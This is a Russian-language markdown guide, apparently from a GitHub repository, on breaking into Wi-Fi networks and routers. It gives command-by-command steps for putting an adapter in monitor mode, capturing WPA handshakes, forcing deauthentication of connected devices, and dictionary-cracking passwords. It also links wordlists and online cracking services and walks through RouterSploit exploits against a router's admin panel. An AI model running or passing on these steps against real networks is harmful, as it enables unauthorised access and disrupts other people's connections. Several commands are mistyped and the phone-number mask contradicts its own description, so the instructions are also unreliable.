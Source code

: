 # Безопасность беспроводных систем

## Выбор и покупка оборудования

Для обнаружения и взлома точек доступа Wi-Fi необходимо купить внешний адаптер сетевой адаптер. Т.к. обычно встроеные модули в ноутбуках/телефонах могут оказаться бесполезными из-за того, что их чип нельзя переключить в режим мониторинга и внедрения пакетов.

Рекомендуемое обоудование:
* Alfa AWUS036NH — усилитель повышенной мощности, разработан для подключения к точкам доступа, расположенных на значительном расоянии.
* Alfa AWUS036ACH — широкодиапозонный беспроводной USB-адаптер

## Популярные способы взлома Wi-Fi. Aircrack-ng 

1. Нужно получить название сетевого адаптера командой
```bash
ifconfig
```
2. Для режима моноринга нужно отключить все сетевые интерфейсы и программы которые могут помашать:
```bash
sudo airmon-ng check kill
```
В выводе будет список PID которын нужно отлкючить (командой `kill`)
3. Отключить сетевой менеджер:
```bash
sudo service network-manager stop
sudo config <имя адаптера из 1.> down
```
4. Нужно запустить сетевой адаптер через airmon-ng
```bash
suod airmon-ng start <имя адаптера из 1.>
```
В ответе будет что-то вроде:
```
monitor mode vif enabled on [phy12]wlan0mon
```
то что будет на месте wlan0mon нужно скопировать, оно будет использоваться дальше. Проверить, что режим монторинга включен:
```bash
suod airmon-ng start <значение из 4.>
```
5. Посмотреть доступные Wi-Fi точки:
```bash
sudo airodump-ng wlan0mon
```
Команда просканирует все доступные Wi-Fi точки. После обнаружения целевой точки скнарирование можно останавливать сочетанием `ctrl+c`, из данных о точках нужно скопировать BSSID и CH (канал)
6. Запустить атаку на точку доступа:
```bash
sudo airodump-ng -c <канал из 5.> --bssid <BSSID из 5.> -w WPAcrack <значение из 4.> --ignore-negative-one
```
Команда запустит отлов хэндшейков. Как только он будет найден команду можно остановить сочетанием `ctrl+c`.
Если получить не получается, то можно попробовать инициировать его самостоятельно, отключив подключенные устройства командой:
```
sudo airplay-ng --deauth 100 -a <BSSID из 5.> <значение из 4.> --ignore-negative-one
```
7. Хендшейк будет лежать в текущей директории в файле с расширением `.cap`.
Необходимо подобрать пароль используя словарь:
```bash
sudo aircrack-ng -w <путь к ловарю> -b <BSSID из 5.> <путь к файлу к хендшейком>.cap
```

## Словари для брута

Словари:
* [ТОП пароли Wi-Fi для WPA, WPA2, WPA3](https://yadi.sk/d/9hGeMZIngIRDww)
* [ТОП 9 миллионов](https://yadi.sk/d/h5fuJAtmQgyJIA)
* [Даты и дни рождения](https://yadi.sk/d/7IaaUM4OIYBMtA)
* [8-значные цифры](https://yadi.sk/d/3t3XrVsxthu__Q)
* [9-значные цифры](https://yadi.sk/d/Qgv9-hNN6NV3cg)

### Генерация своего словаря

Crunch — генератор словарей по маске. 

Генерация словаря для номера телефона (начинающегося на 8919):
```bush
crunch 11 11 -t 8918%%%%%%% -o telefon
```
здесь:
* 11 ­— минимальное количество символов
* 11 ­— максимальное количество символов
* -t — маска, символ `%` — любое число
* -o — запись в файл

### Онлайн сервисы для перебора перебора пароля

* [OnlineHashCrack](https://www.onlinehashcrack.com/) — подбирает по первым 20миллионам слов бесплатно.
* [GPUHASH.me](https://gpuhash.me/) — отправляет результат по почте, попытка подбора занимает около 2х часов.
* [xsrc](https://xsrc.ru/) — аналогичен GPUHASH.me, только платный (100Р подбор).

## RouterSploit

RouterSploit — фреймворк с открытым исходным кодом, позволяет зайти в админ панель роутера. 

Установка:
```bash
git clone https://github.com/threat9/routersploit
cd routersploit
python3 -m pip install setuptools
python3 -m pip install -r requirments.txt
python3 rsf.py
```

#### Пример взлома

1. Запустить RouterSploit:
```bash
python3 rsf.py
```
2. Использовать сканер:
```
use scanners/autopwn
```
3. Посмотреть текущие настройки сканера:
```
show options
```
изменить цель:
```
set target <адрес роутера>
```
4. Запустить сканер:
```
run
```
В ответе будет отображен список эксплоитов для роутера, нужно выбрать любой из списка, например `exploit/routers/linksys/eseries_themoon_rce`
5. Используем эксплоит:
```
use exploit/routers/linksys/eseries_themoon_rce
```
6. Посмотреть текущие настройки:
```
show options
```
изменить цель:
```
set target <адрес роутера>
```
7. Запустить проверку:
```
check
```
8. Запустить эксплоит:
```
run
```

## Дполнительно

[Диапозоны IP адресов](https://www.4it.me)
